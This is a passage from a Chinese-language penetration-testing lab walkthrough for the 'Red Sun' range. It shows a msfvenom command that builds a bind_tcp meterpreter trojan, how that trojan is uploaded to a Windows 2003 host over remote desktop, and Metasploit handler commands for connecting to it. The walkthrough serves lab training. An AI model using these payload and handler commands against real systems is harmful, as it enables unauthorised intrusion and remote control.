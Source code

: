 ![image-20210809155853825](红日靶场内网渗透.assets/image-20210809155853825.png)



将msfvenom生成的木马通过远程桌面传入目标主机

这里使用上面的反弹shell连接失败，没有返回通道(因为内网主机无法通过跳板机来连接攻击主机，而只有攻击主机才能去连接内网主机，所以反向shell不能使用)。所以使用正向连接荷载生成木马bind.exe，将其上传到win2003上

```
msfvenom -p windows/meterpreter/bind_tcp   ARCH=x86   PLATFROM=WIN Rhost=192.168.52.141 -f exe > bind.exe
```



在msf上使用exploit/multi/handler模块的正向payload  

```
use  exploit/multi/handler
set payload  windows/meterpreter/bind_tcp
set rhost 192.168.52.141
```
